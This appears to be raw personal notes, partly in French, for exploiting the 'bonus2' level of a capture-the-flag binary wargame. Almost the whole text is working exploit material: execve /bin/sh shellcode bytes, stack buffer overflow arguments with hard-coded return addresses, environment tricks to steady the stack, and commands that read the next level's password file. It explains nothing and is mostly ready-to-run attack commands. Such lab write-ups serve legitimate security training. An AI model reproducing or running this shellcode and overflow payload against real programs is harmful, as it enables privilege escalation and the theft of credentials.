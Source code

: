  export LANG=$(printf "fi\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80")
 ./bonus2 $(python -c "print('a'*40)") $(python -c "print('b'*18 + '\xbf\xff\xff\x1b'[::-1] + 'c'*20)")

 export LANG = 0xbffffed1 = '\xbf\xff\xfe\xd1'[::-1] + 0

 0xbffffed1 = "r/games"

 '\xbf\xff\xfe\xd1'[::-1] + 2

 0xbfffff19

 adrss strca0xbffff5c0

 0xbffff5d2


  ./bonus2 $(python -c "print('\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + 'a'*16)") $(python -c "print('b'*18 + '\xbf\xff\xf5\xd2'[::-1] + 'c'*20)")


  0xbffff5f2 strcat + 18

export LANG=fi; /home/user/bonus2/bonus2 $(python -c "print('\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + 'a'*16)") $(python -c "print('b'*18 + '\xbf\xff\xf5\xf2'[::-1] + 'c'*20)")


0xbffff5f2


term - 5 = 0xbffff921
term + 3 = 0xbffff928


lang= = 0xbfffffda

0xbffffcd0 + 18 = 0xbffffce8
relancer la session pour clear l'env

$(python -c "print('\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + 'a'*16)") $(python -c "print('b'*18 + '\xbf\xff\xfc\xfc'[::-1])") 

0xbffffcd8

$(python -c "print('\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + 'a'*16)") $(python -c "print('b'*18 + '\xbf\xff\xfc\xf2'[::-1])") 



env -i LANG=fi /home/user/bonus2/bonus2 $(python -c "print('\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + 'a'*16)") $(python -c "print('b'*18 + '\xbf\xff\xfd\x12'[::-1])") <<< 'cat /home/user/bonus3/.pass'



bffffcf2 = nice
bffffd32 = bof

32 de diff entre gdb et le binaire


$(python -c "print('\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + 'a'*16)") $(python -c "print('b'*18 + '\xbf\xff\xfc\xf2'[::-1])") <<< 'cat /home/user/bonus3/.pass'


enlever l'env avec gdb ou sans = `0xbffffcf2`
- echo $(python -c "print('\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + 'a'*16)") > /tmp/test
- echo $(python -c "print('b'*18 + '\xbf\xff\xfc\xf2'[::-1])") > /tmp/test2
- unset $(env | cut -d= -f1)
- export LANG=fi
- $(/bin/cat /tmp/test) $(/bin/cat /tmp/test2) <<< "cat '/home/user/bonus3/.pass'"

version sans niquer l'env:
echo $(echo $(unset $(env | cut -d= -f1); export LANG=fi; /home/user/bonus2/bonus2 $(/usr/bin/python -c "print('\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + 'a'*16)") $(/usr/bin/python -c "print('b'*18 + '\xbf\xff\xfc\xf2'[::-1])") <<< 'cat /home/user/bonus3/.pass'))


enlever l'env avec commande `env -i LANG=fi` = `0xbffffd12`
env -i LANG=fi /home/user/bonus2/bonus2 $(python -c "print('\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + 'a'*16)") $(python -c "print('b'*18 + '\xbf\xff\xfd\x12'[::-1])") <<< 'cat /home/user/bonus3/.pass'

cat /home/user/bonus2/.pass

